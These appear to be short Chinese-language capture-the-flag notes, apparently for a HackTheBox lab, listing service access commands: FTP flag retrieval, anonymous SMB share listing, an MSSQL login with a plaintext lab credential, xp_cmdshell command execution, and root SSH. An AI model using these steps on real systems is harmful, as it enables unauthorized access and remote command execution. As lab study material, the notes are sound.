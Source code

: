 ##### ftp

21端口

~~~
ftp 127.0.0.1
get flag.txt
~~~

##### smb

~~~
smbclient -L 127.0.0.1

        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

这里带美元符号的是管理员权限，这里我们使用-N符号连接backups，发现有一个dtsConfig文件，这个文件是SSIS的配置文件，SSIS是SQL Server Integration Services，先get下来

smbclient -N \\\\127.0.0.1\\backups
~~~



##### telnet



##### mssql

1433端口

~~~shell
#	impacket-mssqlclient
#	这里ARCHETYPE/sql_svc是用户名，M3g4c0rp123是密码,10.129.201.51是对方的IP地址
mssqlclient.exe ARCHETYPE/sql_svc:M3g4c0rp123@10.129.201.51 -windows-auth
#	这里cmd就是你执行的命令
xp_cmdshell {cmd}

~~~

##### mysql

~~~
~~~

##### ssh

~~~
ssh -p 22 root@127.0.0.1
~~~

